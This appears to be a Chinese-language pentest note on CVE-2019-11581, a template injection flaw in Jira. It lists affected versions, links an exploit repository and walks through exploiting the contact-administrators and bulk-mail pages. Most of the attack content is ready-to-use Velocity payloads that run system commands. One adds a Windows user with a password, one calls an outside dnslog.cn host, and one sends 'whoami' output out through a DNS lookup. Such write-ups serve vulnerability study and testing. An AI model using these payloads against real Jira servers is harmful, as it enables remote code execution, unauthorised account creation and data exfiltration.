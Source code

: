 



## 相关漏洞
### CVE-2019-11581 模板注入漏洞

#### 漏洞描述

影响版本

>  4.4.x
>  5.x.x
>  6.x.x
>  7.0.x
>  7.1.x
>  7.2.x
>  7.3.x
>  7.4.x
>  7.5.x
>  7.6.x before 7.6.14 (the fixed version for 7.6.x)
>  7.7.x
>  7.8.x
>  7.9.x
>  7.10.x
>  7.11.x
>  7.12.x
>  7.13.x before 7.13.5 (the fixed version for 7.13.x)
>  8.0.x before 8.0.3 (the fixed version for 8.0.x)
>  8.1.x before 8.1.2 (the fixed version for 8.1.x)
>  8.2.x before 8.2.3 (the fixed version for 8.2.x)

### 漏洞复现

#### 漏洞验证

漏洞利用

> https://github.com/jas502n/CVE-2019-11581

确认未登陆状态下漏洞的存在

访问如下URL（无需管理员账户权限）：

http://10.10.10.12:8080/secure/ContactAdministrators!default.jspa

![image-20210919113350954](jira.assets/image-20210919113350954-16322839765956.png)

在Subject填入payload

针对不同目标操作系统的验证

- Windows
- Linux

##### Windows 利用

添加用户

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user neo 1qaz@WSX3edc /add').waitFor()
```

##### Linux 利用

登陆管理员账号，然后访问如下URL：

/secure/admin/SendBulkMail!default.jspa

```
# dnslog query
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://uz09sm.dnslog.cn').waitFor()

# dnslog 外带命令执行结果 示例：whoami
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ping `whoami`.vniyj2.dnslog.cn').waitFor()
```

dnslog query

![image-20210919120024420](jira.assets/image-20210919120024420.png)

